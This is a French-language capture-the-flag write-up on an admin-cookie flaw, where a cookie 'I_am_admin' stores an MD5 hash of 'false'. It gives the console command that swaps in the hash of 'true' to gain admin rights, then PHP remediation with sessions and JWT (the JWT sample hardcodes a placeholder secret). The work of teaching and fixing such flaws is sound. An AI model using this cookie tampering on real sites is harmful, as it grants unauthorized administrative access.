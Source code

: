 # Vulnérabilité de Cookie d'Administration

## 1. Description de la Faille
Cette vulnérabilité permet d'obtenir des droits d'administration en modifiant simplement un cookie dont la valeur est un hash MD5 facilement déchiffrable.

## 2. Localisation
- Cookie visible dans la console du navigateur
- Nom du cookie : `I_am_admin`
- Valeur initiale (MD5) : `68934a3e9455fa72420237eb05902327` (= "false")

## 3. Exploitation

### Étape 1 : Observer le Cookie Initial
1. Ouvrir la console du navigateur (F12)
2. Exécuter :
```javascript
document.cookie
```
Output attendu : `"I_am_admin=68934a3e9455fa72420237eb05902327"`

### Étape 2 : Analyser le Hash
- Hash MD5 original : `68934a3e9455fa72420237eb05902327`
- Valeur décodée : `"false"`
- Hash MD5 de "true" : `b326b5062b2f0e69046810717534cb09`

### Étape 3 : Modifier le Cookie
Exécuter dans la console :
```javascript
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```

## 4. Impact de la Faille
1. Accès non autorisé :
   - Élévation de privilèges
   - Accès à des fonctionnalités admin
   - Contournement de sécurité

2. Risques :
   - Modification de données
   - Vol d'informations
   - Compromission du système

## 5. Comment Corriger

### Solution en PHP avec Sessions
```php
<?php
class AdminAuth {
    public function __construct() {
        session_start();
    }
    
    public function login($username, $password) {
        // Vérification en base de données
        $user = $this->verifyCredentials($username, $password);
        
        if ($user && $user['is_admin']) {
            $_SESSION['admin_id'] = $user['id'];
            $_SESSION['admin_token'] = $this->generateSecureToken();
            return true;
        }
        return false;
    }
    
    public function isAdmin() {
        return isset($_SESSION['admin_id']) && 
               $this->validateAdminToken($_SESSION['admin_token']);
    }
    
    private function generateSecureToken() {
        return bin2hex(random_bytes(32));
    }
}
```

### Solution avec JWT
```php
<?php
class SecureAdminAuth {
    private $secret_key = 'votre_clé_secrète_très_longue';
    
    public function createAdminToken($user_id) {
        $payload = [
            'user_id' => $user_id,
            'is_admin' => true,
            'exp' => time() + 3600,
            'jti' => bin2hex(random_bytes(16))
        ];
        
        return JWT::encode($payload, $this->secret_key, 'HS256');
    }
    
    public function verifyAdmin($token) {
        try {
            $decoded = JWT::decode($token, $this->secret_key, ['HS256']);
            return $decoded->is_admin === true;
        } catch (Exception $e) {
            return false;
        }
    }
}
```

## 6. Bonnes Pratiques

### Authentification
1. Utiliser des sessions côté serveur
2. Implémenter des tokens JWT
3. Ne jamais stocker de données sensibles dans les cookies
4. Utiliser des tokens d'authentification sécurisés

### Sécurité des Cookies
1. Flags de sécurité :
```php
session_set_cookie_params([
    'secure' => true,
    'httponly' => true,
    'samesite' => 'Strict'
]);
```

2. Configuration Apache :
```apache
Header always set Set-Cookie HttpOnly;Secure
```

## 7. Pour le CTF
Valeurs MD5 importantes :
```
"false" = 68934a3e9455fa72420237eb05902327
"true"  = b326b5062b2f0e69046810717534cb09
```

Commande pour obtenir le flag :
```javascript
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
refresh

## 8. Ressources Additionnelles
- OWASP Session Management Cheat Sheet
- OWASP Authentication Cheat Sheet
- JWT Best Practices
- Secure Cookie Handling Guidelines

## 9. Points Clés à Retenir
1. Ne jamais utiliser de cookies pour l'authentification admin
2. Toujours gérer les permissions côté serveur
3. Utiliser des mécanismes d'authentification robustes
4. Mettre en place des sessions sécurisées